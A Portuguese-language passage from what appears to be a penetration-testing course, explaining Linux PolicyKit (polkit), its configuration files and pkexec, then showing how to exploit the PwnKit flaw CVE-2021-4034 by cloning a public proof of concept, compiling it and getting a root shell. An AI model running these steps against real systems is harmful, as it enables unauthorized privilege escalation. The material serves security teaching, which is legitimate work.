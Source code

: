 **PolicyKit** (ou **polkit**) é um serviço de autorização em sistemas Linux que controla a comunicação entre o software do usuário e os componentes do sistema com base em permissões. Ele verifica se o software do usuário está autorizado a executar certas instruções e permite definir permissões padrão para cada usuário e aplicativo.

É possível configurar se uma operação deve ser permitida ou proibida e se a autorização deve ser como administrador ou com validade específica, seja limitada por processo, sessão, ou ilimitada. Autorizações também podem ser atribuídas individualmente a usuários e grupos.

O Polkit trabalha com dois grupos de arquivos.
1. ações/políticas ( `/usr/share/polkit-1/actions`)
2. regras ( `/usr/share/polkit-1/rules.d`)

O Polkit também tem regras `local authority` que podem ser usadas para definir ou remover permissões adicionais para usuários e grupos. Regras personalizadas podem ser colocadas no diretório `/etc/polkit-1/localauthority/50-local.d`com a extensão de arquivo `.pkla`.

O PolKit também vem com três programas adicionais:

- `pkexec`- executa um programa com os direitos de outro usuário ou com direitos de root
- `pkaction`- pode ser usado para exibir ações
- `pkcheck`- isso pode ser usado para verificar se um processo está autorizado para uma ação específica

A ferramenta mais interessante para nós, neste caso, é `pkexec`porque ela executa a mesma tarefa `sudo` e pode executar um programa com direitos de outro usuário ou root.

```shell-session
cry0l1t3@nix02:~$ # pkexec -u <user> <command>
cry0l1t3@nix02:~$ pkexec -u root id

uid=0(root) gid=0(root) groups=0(root)
```

Na ferramenta `pkexec`, foi encontrada a vulnerabilidade de corrupção de memória com o identificador [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034) , também conhecida como [Pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034) e também leva à escalada de privilégios.

Essa vulnerabilidade também ficou oculta por mais de dez anos, e ninguém pode dizer precisamente quando foi descoberta e explorada. Finalmente, em novembro de 2021, essa vulnerabilidade foi publicada e corrigida dois meses depois.

Para explorar essa vulnerabilidade, precisamos baixar um [PoC](https://github.com/arthepsy/CVE-2021-4034) e compilá-lo no próprio sistema de destino ou em uma cópia que fizemos.

```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/arthepsy/CVE-2021-4034.git
cry0l1t3@nix02:~$ cd CVE-2021-4034
cry0l1t3@nix02:~$ gcc cve-2021-4034-poc.c -o poc
```

Depois de compilarmos o código, podemos executá-lo sem mais delongas. Após a execução, mudamos do shell padrão ( `sh`) para Bash ( `bash`) e verificamos os IDs do usuário.

```shell-session
cry0l1t3@nix02:~$ ./poc

# id

uid=0(root) gid=0(root) groups=0(root)
```
